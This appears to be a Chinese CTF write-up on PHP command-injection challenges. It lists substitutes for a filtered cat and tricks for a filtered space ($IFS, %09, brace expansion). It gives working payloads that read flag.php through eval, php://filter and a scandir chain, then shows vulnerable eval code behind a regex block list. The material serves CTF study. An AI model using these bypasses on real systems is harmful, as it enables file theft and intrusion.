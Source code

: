 #### 1. cat被过滤

```bash
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
grep  在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令： grep test *file
paste  指令会把每个文件以列对列的方式，一列列地加以合并。
```

#### 2. 空格被过滤·

```bash
{$IFS}   $IFS$9
> < <> 重定向符
%09(需要php环境)
{cat,flag.php} //用逗号实现了空格功能
%20  
https://blog.csdn.net/whuslei/article/details/7187639  
```

payload:

```
?c=echo(`tac%09f*`);
```

解法二：

```
?c=include($_GET["url"]);?>&url=php://filter/read=convert.base64-encode/resource=flag.php
```

官方

```
show_source(next(array_reverse(scandir(pos(localeconv())))));
```

## web32~文件包含绕过

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

